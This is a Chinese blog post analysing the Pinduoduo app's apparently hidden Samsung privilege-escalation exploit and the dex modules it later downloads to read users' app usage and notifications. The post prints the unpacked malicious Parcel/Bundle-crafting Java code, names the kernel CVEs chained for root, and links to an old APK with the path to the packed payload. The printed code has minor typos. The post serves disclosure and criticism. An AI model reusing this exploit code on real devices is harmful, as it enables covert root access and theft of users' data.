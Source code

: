 ```yaml
---
title: PDD 内嵌提权代码，及动态下发dex分析
tags: []
id: '233'
categories:
  - - technology
    - 漏洞报告
date: 2024-05-19 21:12:15
---
```


参考链接：

[https://github.com/davinci1010/pinduoduo\_backdoor](https://github.com/davinci1010/pinduoduo_backdoor)

[https://mp.weixin.qq.com/s/P\_EYQxOEupqdU0BJMRqWsw](https://mp.weixin.qq.com/s/P_EYQxOEupqdU0BJMRqWsw)

[https://xz.aliyun.com/t/2364](https://xz.aliyun.com/t/2364)

## 利用 Samsung 手机 `com.samsung.android.cepproxyks.CertByte` 的提权漏洞

使用3月5日之前的版本，也就是版本为6.50版本之前

[https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728](https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728)

之后将将 apk 文件改为 zip 解压，打开以下目录

```
\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin
```

当然，这是加了壳的，根据上方的 GitHub 仓库脱壳之后的代码应该如下

```
Public static Bundle makeBundleForSamsungSinceP(Intent intent){
   Bundle bundle = new Bundle();
   Parcel obtain = Parcel.obtain();
   Parcel obtain2 = Parcel.obtain();
   Parcel obtain3 = Parcel.obtain();
   obtain2.writeInt(3);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(3);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(4);
   obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
   obtain2.writeInt(0);
   byte b[] = new byte[0];
   obtain2.writeByteArray(b);
   obtain2.writeInt(0);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(53);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(1);
   obtain2.writeInt(1);
   obtain2.writeInt(13);
   obtain2.writeInt(72);
   obtain2.writeInt(48);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(0);
   obtain2.writeInt(13);
   obtain2.writeInt(-1);
   int dataPosition = obtain2.dataPosition();
   obtain2.writeString("intent");
   obtain2.writeInt(4);
   obtain2.writeString("android.content.Intent");
   obtain2.writeToParcel(obtain3, 0);
   obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
   int dataPosition2 = obtain2.dataPosition();
   obtain2.setDataPosition(dataPosition2 - 4);
   obtain2.writeInit(dataPosition2 -dataPosition);
   obtain2.setdataPosition(dataPosition2);
   int dataSize = obtain2.dataSize();
   obtain.writeInt(dataSize);
   obtain.writeInt(1279544898);
   obtain.appendFrom(obtain2, 0, dataSize);
   obtain.setDataPosition(0);
   bundle.readFromParcel(obtain);
   return bundle;
}
```

关于这些代码的意思，ChatGPT给出的解释：

[https://chatgpt.com/share/5313eddc-1f76-4578-9cf4-8d61eab89635](https://chatgpt.com/share/5313eddc-1f76-4578-9cf4-8d61eab89635)

首先 PDD 利用了 Samsung 的 [CVE-2021-25337](https://github.com/advisories/GHSA-7x25-8cjm-2rj9) 的一个驱动内核信息泄露漏洞，之后再使用了使用 DECON driver 中的 UAF 漏洞（[CVE-2021-25370](https://github.com/advisories/GHSA-hhhg-3qxh-mmh3)）利用 signalfd 系统调用修改 addr\_limit，转化为内核任意地址读写，恭喜！你的手机已经被提权成功了。

## 提权之后 PDD 干了什么

首先利用了手机厂商 OEM 代码中导出的 root-path FileContentProvider， 进行 System App 和敏感系统应用文件读写（具体代码在参考链接中的微信文章）

当然，既然是 PDD 了，为了欺骗用户可谓是不择手段。不然为什么为啥要利用上方的 `FileContentProvider`

利用上方的操作，直接突破沙箱机制、绕开权限系统改写系统关键配置文件为自身保活，修改用户桌面(Launcher)配置隐藏自身或欺骗用户实现防卸载。

做完这些，

动态下发dex，开始给自己保活，防卸载，然后搞数据， 比如：  
`1a68d982e02fc22b464693a06f528fac.dex` 读取用户手机上的app使用记录  
`95cd95ab4d694ad8bdf49f07e3599fb3.dex` 读取用户手机的应用通知。

不是，哥们。你是大厂子也敢这么干啊？

![](https://api.ymbit.cn/images/bushi_gemen.jpg)